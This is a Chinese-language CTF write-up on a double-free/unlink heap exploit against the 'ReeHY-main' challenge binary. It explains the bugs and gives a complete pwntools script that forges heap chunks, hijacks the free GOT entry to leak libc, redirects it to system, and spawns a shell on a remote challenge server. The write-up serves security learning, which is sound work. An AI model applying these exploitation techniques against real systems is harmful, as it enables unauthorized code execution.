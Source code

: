 ```yaml
---
title: double-free
date: 2018-03-30 17:57:05
categories:
tags:
	- CTF
	- double-free
	- unlink

---
```




Double Free其实就是同一个指针free两次。虽然一般把它叫做double free。其实只要是free一个指向堆内存的指针都有可能产生可以利用的漏洞。

double free的原理其实和堆溢出的原理差不多，都是通过unlink这个双向链表删除的宏来利用的。只是double free需要由自己来伪造整个chunk并且欺骗操作系统。



## 程序分析

题目为  [看雪.Wifi万能钥匙 CTF 2017 第4题 ReeHY-main ](https://ctf.pediy.com/game-fight-34.htm)

1. 创建 chunk，选择存储chunk指针到数组中的那个位置(BSS段)， chunk 不能大于 4k ， 数量<=4。

   并将 可编辑标志 置为 1。

2. 释放 chunk，选择 chunk指针数组 释放。 检测下标<=4

3. 编辑 chunk，选择 chunk指针数组 编辑， 检测 可编辑标志 ， 1 为可编辑。  **存在堆溢出**




## 利用

利用思路：

1. 由于指针释放后未重置，存在 double free。
2. 利用 unlink 将free 替换为 push ， 得到基址。
3. 利用 基址得到 system 地址。
4. 将 free 替换为  system
5. getshell




申请chunk1 ，chunk2

![mg-](double-free/img-1.png)

释放 chunk1 ，chunk2 ， 申请chunk3 (0x210字节) 为保证double free利用万无一失，最好后申请的大chunk的空间与之前两个chunk完全重叠。

![mg-](double-free/img-2.png)

然后我们伪造chunk4 chunk5，(chunk1指针(指针P) free时没有重置 ，可以 Double free  )，可以实现 unlink。

![mg-](double-free/img-3.png)


```python
#!/usr/bin/env python
# encoding: utf-8
 
from pwn import *
import sys
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
# context.log_level = "debug"
 
def Welcome():
    p.recvuntil("$ ")
    p.sendline("mutepig")
 
def Add(size,id,content):
    p.recvuntil("$ ")
    p.sendline("1")
    p.recvuntil("size\n")
    p.sendline(str(size))
    p.recvuntil("cun\n")
    p.sendline(str(id))
    p.recvuntil("content\n")
    p.sendline(content)
 
def Remove(id):
    p.recvuntil("$ ")
    p.sendline("2")
    p.recvuntil("dele\n")
    p.sendline(str(id))
 
def Edit(id,content):
    p.recvuntil("$ ")
    p.sendline("3")
    p.recvuntil("edit\n")
    p.sendline(str(id))
    p.recvuntil("content\n")
    p.send(content)
 
if __name__ == "__main__":
    if len(sys.argv)==1:  # local
        p = process("./4-ReeHY-main")
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('211.159.216.90', 51888)
        libc = ELF('ctflibc.so.6')
    #+==================INIT=====================================
    elf = ELF('4-ReeHY-main')
    libc_atoi = libc.symbols['atoi']
    libc_system = libc.symbols['system']
    libc_binsh = next(libc.search("/bin/sh"))
    free_got = elf.got['free']
    atoi_got = elf.got['atoi']
    puts_plt = elf.plt['puts']
    heap_addr = 0x602100
    #+==================INIT=====================================
    Welcome()
    Add(512,0,"/bin/sh\x00")
    Add(512,1,"1")
    Add(512,2,"2")
    Add(512,3,"3")
    Remove(3)  # free顺序无影响。
    #https://bbs.pediy.com/thread-218395.htm exp中的malloc和free为了保护chunk0不被覆盖。
    Remove(2)
    payload = p64(0) + p64(512+1) + p64(heap_addr - 0x18) + p64(heap_addr - 0x10) + 'A'*(512-0x20) + p64(512) + p64(512)
    Add(1024,2,payload)
    Remove(3)
 
    Edit(2,'1'*0x18 + p64(free_got) + p64(1) + p64(atoi_got)+ "\n")
    gdb.attach(p)
    Edit(2,p64(puts_plt)) # 改写 free 为 puts
    
    
    Remove(3)
    atoi_addr = u64(p.recv(8)) & 0xffffffffffff   
    # u64 出错 ， 解决办法：
    #1. system_addr = u64(puts_addr+'\x00'*2)-puts_off+system_off
    #2. atoi_addr = u64(p.recv(8)) & 0xffffffffffff   
    
    base_addr = atoi_addr - libc_atoi
    system_addr = base_addr + libc_system
    
    Edit(2,p64(system_addr)) # 改写 free 为 system
    Remove(0)
 
    p.interactive()
```



## 参考

https://bbs.pediy.com/thread-218395.htm

https://bbs.pediy.com/thread-218325.htm

https://www.tuicool.com/articles/yquU732

